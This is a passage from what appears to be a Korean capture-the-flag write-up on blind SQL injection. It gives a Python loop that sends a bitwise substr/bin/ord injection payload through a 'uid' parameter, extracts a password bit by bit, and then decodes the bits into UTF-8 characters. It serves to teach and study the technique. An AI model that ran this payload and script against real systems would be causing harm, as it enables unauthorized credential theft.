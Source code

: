 `한`의 경우  **54620**의 값이 **1101010101011100**의 비트 표현 16글자가 나오게 된다.

```python
for j in range(1, bit_length + 1):    
    payloads = f'admin\' and substr(bin(ord(substr(upw, {i}, 1))), {j}, 1) = \'1\'; -- '
    param = {'uid' : payloads}
    r = requests.get(url, params = param)
    
    if r.text.__contains__('exists'):
        bit += '1'
    else:
        bit += '0'

print(f'BIT = {bit}')
```

앞서 했던 코드를 통해 한 글자에 대한 비트열의 길이를 알아내어 비트의 값을 확인할 수 있고, 이 점을 이용하여 한 글자씩 비트 값을 추출하면 비밀번호를 알 수 있다.

#### Covert Bit to Char

비밀번호의 각 글자별 비트열 길이, 비트 값을 알았으므로 해당 값에 대한 변환이 필요하다.

```python
password += int.to_bytes(int(bit, 2), (bit_length + 7) // 8, "big").decode("utf-8")
```

* **첫번째 인자** : 변환하고자 하는 값

* **두번째 인자** : 표현하고자 하는 값의 길이

* **세번째 인자** : Big, Little Endian

비트는 현재 문자열로 되어있으므로 **2진수로의 int 형변환**, 한글의 경우 2byte이기에 비트의 길이 값에 따른 **값 표현 길이**, 글자 표현의 경우는 **Big Endian**을 이용하여 UTF-8 인코딩을 진행하면 비밀번호를 알 수 있습니다.